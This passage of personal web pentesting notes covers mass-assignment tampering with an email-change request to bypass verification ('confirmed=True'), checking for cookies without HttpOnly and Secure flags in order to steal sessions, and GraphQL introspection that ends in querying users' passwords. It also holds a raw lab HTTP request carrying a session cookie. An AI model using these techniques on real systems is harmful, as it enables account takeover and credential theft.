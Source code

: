 Take the time to review any account login information in BurpSuite. Look at the response.. in the scenario that you're creating a new account and there's an email verification, is there a parameter "confirmed" that decides if it recognizes you? Hijack the email parameter:

```bash
// Before
_method=patch&authenticity_token=sqroxonHHHMVjShpvoFQxdQaO5lP9Z-w_XCLkSzgHY9UDTziioXABz5UKg8E0pO7qUVlzkDlK6WfwSjluHnkMQ&user%5Bemail%5D=test2%40test.test&commit=Change%20email

//After
_method=patch&authenticity_token=RSv5NyN2tJJgQcgbwtyWzA7oHYcTW4dSZNsLoHuASc-jjC0TIDRo5kuYyn14j1Wyc7dD0BxLM0cGaqjU7xmwcQ&user%5Bconfirmed%5D=True&commit=Change%20email
```

```bash
...&confirmed=True
```

#### Stealing Session Cookies

- See if there are any cookies present without the HttpOnly and Secure flags. If this is in the context of WordPress, there's a walkthrough in ../notes/web_assessment_and_xss.md.

#### GraphQL

Navigate to "http://site.com/graphql/". Then, you want to extract information.

```bash
{__schema {
   types {
      name
      kind
      description
      fields {
         name
      }
   }
}}
```

Url encode that, then query it within the url, "http://site.com/graphql?query=%7B__schema%20%7B%0A%20%20%20types%20%7B%0A%20%20%20%20%20%20name%0A%20%20%20%20%20%20kind%0A%20%20%20%20%20%20description%0A%20%20%20%20%20%20fields%20%7B%0A%20%20%20%20%20%20%20%20%20name%0A%20%20%20%20%20%20%7D%0A%20%20%20%7D%0A%7D%7D". Say there's a user object with a password and you want to query what it is, you can do that by putting "{ user { username, password } }"


Example post request.

````
POST /serverinfo HTTP/1.1
Host: 192.168.214.114:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.214.114:8080/serverinfo
Content-Type: application/x-www-form-urlencoded
Content-Length: 185
Origin: http://192.168.214.114:8080
Connection: close
Cookie: _forum_on_rails_session=XuJdkOzvkY%2FGvsLTdPUryTm0axW3Bd%2FAVmJACm26u3uZGWKZnGpK4wqlObwLM0XbSDTaylpMHj%2F4T7RWss%2FqRkviuuKxX%2FIWjd1%2BNrsW5K6iPVZZxVfHAYsilSAytzTY5Ri0jaF4FQeYMQ1Tt7NH3UMs57dpyYqrwnGIFSuOueWgLLuKLZYlNXUazlGgSYUut9il%2BVa5BYOeC2LNrJR2IHvSDdMuAuTyik1%2BYmuM7oJ2ylQOE2rz0Qpl2YmRvd8azD%2Frm6LvZnwqMT7GgpcCpZGUVkbUlEEenah9YvLUC7eGFudR21A0KZGs7AcJs4HLzLezy5qpNS%2FwwUChwgrqTyWSE8ggV6E8ksjfw9tQZZCHPi1wwfoLYuasX%2Bos%2FrJfhxDOYx9fhH1m7Ock5KTt--bD0GYoMPTFK2RvBc--fNbrpxQT53InzNaJdcdDRQ%3D%3D
Upgrade-Insecure-Requests: 1

````